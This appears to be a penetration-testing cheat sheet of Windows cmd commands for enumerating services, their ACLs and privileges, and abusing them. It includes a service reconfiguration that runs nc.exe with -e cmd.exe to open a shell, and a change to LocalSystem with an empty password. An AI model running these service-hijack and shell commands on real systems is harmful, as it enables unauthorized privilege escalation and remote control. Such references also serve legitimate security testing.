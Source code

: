 # cmd.exe
% windows, service

#plateform/windows #target/local #cat/RECON/SERVICES 


## services - list
```
sc.exe query #List of services
```

## services - list (wmic)
```
wmic service list brief
```

## services - list started
```
net start
```

## services - get ACL (SSDL)
```cmd
sc.exe sdshow <service_name>
```

## services - get config (psservice)
```cmd
.\psservice.exe config '<service_name>' -accepteula
```

## services - get ACL (accesschk)
```cmd
.\accesschk.exe -c <service_name> -l -accepteula
```

## services - get ACL (psservice)
```cmd
.\psservice.exe security '<service_name>' -accepteula
```

## services - get privilege
```
accesschk.exe /accepteula -ucqv <service_name|*>
```

## services - get privilege of a group
```
.\accesschk.exe /accepteula -uwcqv "<group_name|internal\Service Management>" <service_name|*>
```


## services - reconfigure
```
sc config <service> binpath= "C:\nc.exe -nv 127.0.0.1 4444 -e C:\WINDOWS\System32\cmd.exe"
```

## services - change 
```
sc config <service> obj= ".\LocalSystem" password= ""
```

## services - start 
```
net start <service>
```